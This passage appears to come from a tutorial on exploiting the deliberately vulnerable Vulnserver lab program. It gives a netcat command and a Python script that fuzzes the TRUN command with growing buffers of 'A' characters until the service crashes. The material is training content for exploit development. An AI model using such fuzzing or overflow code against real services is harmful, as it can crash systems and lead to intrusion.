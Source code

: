After System crash

<figure><img src="../../../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

```bash
echo -e "HOST payload" | netcat ip_address port_number
```

*   **Python Script**

    In **Vulnserver**, the `TRUN` command is a **vulnerable command** that processes user input, but it does **not** properly handle long input strings. This makes it **susceptible to buffer overflow attacks**.

    ```python
    #!/bin/python3

    import sys,socket
    from time import sleep

    buffer= "A" * 100
    while True:
        try:
            s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
            s.connect(('192.168.1.2',9999))
            s.send(('TRUN / .:/' + buffer).encode())
            s.close()
            sleep(1)
            buffer = buffer + "A" * 100
            
        except:
            print('Fuzzing crashed at = %s' % str(len(buffer)))
            sys.exit()
    ```
